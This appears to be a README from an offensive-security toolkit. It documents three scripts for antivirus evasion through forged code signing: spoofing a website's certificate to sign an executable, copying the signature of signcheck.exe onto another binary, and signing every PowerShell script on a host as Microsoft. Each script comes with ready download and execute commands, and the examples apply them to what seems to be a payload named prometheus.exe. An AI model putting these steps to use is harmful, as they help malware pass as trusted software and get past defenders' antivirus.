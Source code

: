 ## CarbonCopy.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|CarbonCopy|A tool which creates a spoofed certificate of any online website<br />and signs an Executable for AV Evasion. Works for both Windows and Linux|User Land|To be executed under Linux|

**download Script:**
```shell
wget https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/CarbonCopy.py -O CarbonCopy.py
```

**prerequisites:**
```shell 
apt-get install osslsigncode
pip3 install pyopenssl
```

**execute:**
```python   
python3 CarbonCopy.py www.microsoft.com 443 prometheus.exe signed-prometheus.exe
```

<br />

## sigthief.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|sigthief|A tool to sign an Executable for AV Evasion.<br />It clones signcheck.exe to sign the new binary|User Land|Dependencies: python3|

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/sigthief.py" -OutFile "sigthief.py"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/signcheck.exe" -OutFile "signcheck.exe"
```

**execute:**
```python   
python Sigthief.py -i "sigcheck.exe" -t "prometheus.exe" -o "signed-prometheus.exe"
```

<br />

## DigitalSignature-Hijack.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[DigitalSignature-Hijack](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Sign-Executables/DigitalSignature-Hijack.ps1)|Digitally sign all powershell scripts on the host as Microsoft|Administrator|Author: @netbiosX|

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Sign-Executables/DigitalSignature-Hijack.ps1" -OutFile "DigitalSignature-Hijack.ps1"
```

**execute:**
```powershell   
.\DigitalSignature-Hijack.ps1
```

